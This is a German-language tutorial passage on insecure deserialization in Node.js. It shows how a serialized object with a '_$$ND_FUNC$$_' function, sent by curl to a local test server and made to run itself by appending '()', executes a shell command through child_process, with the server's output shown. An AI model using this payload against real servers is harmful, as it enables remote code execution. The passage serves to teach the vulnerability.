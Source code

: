 In Javascript kann eine Klasse/Objekt auch eine Funktion als Element
besitzen. Folgende Klasse inkludiert z.B. unter dem Namen ,,todo” nicht
ein Attribut, sondern eine ausführbare Funktion:

            // Beispiel eines serialisierten Objekts mit einer aufrufbaren Funktion
          const todo = {
                todo : function() {
                    // child_process kann verwendet werden um eine ausführbare Datei aufzurufen
                    require('child_process').exec('ls /bin', function(error, stdout, stderr) {console.log(stdout)})
                }
            };

Wird diese Klasse serialisiert, wird folgender serialisierter Text
erstellt:

    {"todo":"_$$ND_FUNC$$_function() {\n\t\t\t\trequire('child_process').exec('ls /bin', function(error, stdout, stderr) {console.log(stdout)})\n\t\t\t}"}

Dieser inkludiert das Ausführen eines Befehls (,,ls /bin”) in der
Hoffnung, dass beim deserialisieren dieser Befehl am Server aufgerufen
werden würde. Dieses Kommando wird nun ebenso über curl an den Server
übertragen:

    # Die Zeichen \ und $ mussten teilweise maskiert werden
    $ curl -X POST -d "fubar={\"todo\":\"_\$\$ND_FUNC\$\$_function() {\n\t\t\t\trequire('child_process').exec('ls /bin', function(error, stdout, stderr) {console.log(stdout)})\n\t\t\t}\"}" http://localhost:3000/api/deserialize

    # Ausgabe am Server:

    { todo: [Function (anonymous)] }

Das Objekt wurde deserialisiert (inkl. der Methode mit dem Schadcode),
würde diese Methode während der Request-Abarbeitung aufgerufen werden,
würde unser Kommando am Server exekutiert werden. Wir können diesen
Exploit noch verbessern indem wir durch Anhängen von ,,()” nicht nur
eine Funktion definieren, sondern diese auch direkt aufrufen. Dies würde
folgendem serialiserten String bzw. folgendem Curl-Aufruf entsprechen:

    $ curl -X POST -d "fubar={\"todo\":\"_\$\$ND_FUNC\$\$_function() {\n\t\t\t\trequire('child_process').exec('ls /bin', function(error, stdout, stderr) {console.log(stdout)})\n\t\t\t}()\"}" http://localhost:3000/api/deserialize

Die Ausgabe am Server zeigt nun, dass das Kommando ausgeführt, und der
Inhalt von */bin* ausgegeben wurde:

    { todo: undefined }                                                                                                                         
    [                                                                                                                                           
    2to3-2.7                                                              
    aa-enabled                                                                                                                                  
    aa-exec                                                               
    aa-features-abi                                                       
    aconnect                                                              
    acpi_listen                                                           
    add-apt-repository                                                    
    addpart                                                               
    addr2line                                                             
    afm2pl                                                                
    afm2tfm                                                               
    ag                                                                    
    aleph
    ...
